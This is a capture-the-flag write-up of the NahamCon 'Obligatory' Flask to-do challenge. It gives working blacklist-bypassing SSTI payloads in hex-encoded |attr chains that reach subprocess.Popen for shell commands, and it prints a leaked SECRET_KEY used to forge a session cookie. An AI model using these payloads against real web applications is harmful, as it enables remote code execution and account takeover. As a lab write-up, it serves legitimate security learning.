# Obligatory
>Every Capture the Flag competition has to have an obligatory to-do list application, right???

## About the Challenge
This challenge was rated medium difficulty and ended up having 91 solves with its point value being 461/500 points.

## How to Solve
Upon opening the page we are greeted with a simple login form. Simply just create a user and login to reveal the actual challenge. Once logged in we are greeted with this screen:  

 

After adding a new task to the list the updated page can be seen here: 

 

Two things are immediately eye-catching. The ``Task created`` being reflected in the URL as seen here ``http://challenge.nahamcon.com:31092/?success=Task%20created``. And also if we hover over the delete button on the task it calls the link ``http://challenge.nahamcon.com:31092/delete?id=2``. The interesting thing here being that the ID is 2 and not 1 or 0. This must mean that our objective is to read the task with the ID of 1.  

After looking around a bit I noticed the cookie ``auth-token`` which at first might look like a JWT token but after a little research it turns out to be a Flask cookie. We can confirm this using ``flask-unsign`` to decode the cookie: 

 

From this we can see that we are logged in with the user that has the ID 2.
This also confirms our suspicion that another user exists and our goal is to become that user. 
Now the question is just how we become that? Our goal now is to forge a cookie that has the ID set to 1 instead 2. But in order to do this we need to know the secret key used within the Flask app. 

At first we tried to bruteforce the key locally using the wordlist ``rockyou`` but that didn't give us any hits so we have to find the key another way. Let's go back and look at the input that we had reflected back to us whenever we created the task in the first place. 

If we try to replace ``/?success=Task created`` with ``/?success={{7*7}}`` to test for Server Side Template Injection (SSTI) we can see that it returns ``49`` and therefore probes that SSTI is possible. 

 

This is great! Now we should just be able to read the configuration using ``{{config}}``. Except trying this payload returns this page: 

 
Turns out that a blacklist is in place and we need to find a way around this.
My usual way of gaining SSTI file read is by recovering the ``object`` class and accessing ``builtins`` that way. But as we can see in the blacklist then ``builtins`` is blocked so it won't be that easy.

After a lot of research and testing it turns out that we can just use my usual way but by turning it into hex. We can for example take the payload ``{{"".__class__}}`` which should return the class ``string``. In this case it is blocked as ``class`` is blocked by the blacklist. But if we just convert most of it to hex and use ``|attr`` instead of dots to access attributes then we should be all good.
Doing this our new payload looks like this: ``{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)}}`` which does exactly as the previous payload except it bypasses the blacklist. After trying this payload on the website we can see that it returns the following: 

 
This means that our payload actually worked! 
Now knowing that we can just convert the words to hex we can change this payload:
``{{"".__class__.__base__.__subclasses__()}}`` into the hex equivalent:
``{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)|attr(%27\x5f\x5f\x62\x61\x73\x65\x5f\x5f%27)|attr(%27\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%27)()}}``. 

Sending this to the webserver returns a very long list of subclasses: 

 

Now having access to the list of subclasses I wanted to find the class ``subprocess.Popen`` so that we could run shell commands on the server. I did this by searching the page for ``popen`` and copy pasting all classes before it into a regex that counts how many commas there. This gives us the index needed to call the class. In this case the index was ``411`` but it can vary. In order to craft this payload we would need the plaintext payload:
``{{"".__class__.__base__.__subclasses__()[411]('ls',shell=True,stdout=-1).('communicate')()}}`` 
This would run the command ``ls`` on the server and return the result on the page. But since brackets like ``[`` and ``]`` are not permitted we will have to use the ``getitem`` attribute.  
Therefore our payload will look like this:
``{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)|attr(%27\x5f\x5f\x62\x61\x73\x65\x5f\x5f%27)|attr(%27\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%27)()|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(411)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}``. 
After running this payload on server we get the list of files returned as seen here: 

 

From here since we can't use any dots I just decided to use the command ``cat *`` in order to read all the files in the current directory. 
The payload for that is the same as before but replacing ``ls`` with ``cat *``.
This gives us the following result: 

 

All of this mess is all the files in the directory. The interesting thing here is the ``SECRET_KEY`` value which is set to ``&GTHN&Ngup3WqNm6q$5nPGSAoa7SaDuY``. 
Using this we can forge ourselves a new cookie in order to read the flag.
This can be done using ``flask-unsign`` as well: 

 

Replacing our ``auth-token`` with this new cookie and refreshing the page reveals the flag! 

 
And we got it! ``flag{7b5b91c60796488148ddf3b227735979}``

## Reflection
Looking back at this challenge after the competition and reading other writeups it turns out that there are a lot of "better" or faster ways to solve this challenge. Another player managed to solve this challenge using a way insanely shorter payload than us. ``jmrcsnchz`` managed to simply solve the SSTI part using ``{{self|attr("\x5f\x5fdict\x5f\x5f")}}`` which is absolutely incredible! You can read more about their way of solving the challenge in their [writeup](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/blob/main/Obligatory/README.md). 

This just goes to show how many different solutions a challenge can have and how much they can differ. We definitely learned a bunch both during the challenge but also after when reading writeups and learning is always the most important part!

##### Written by Quack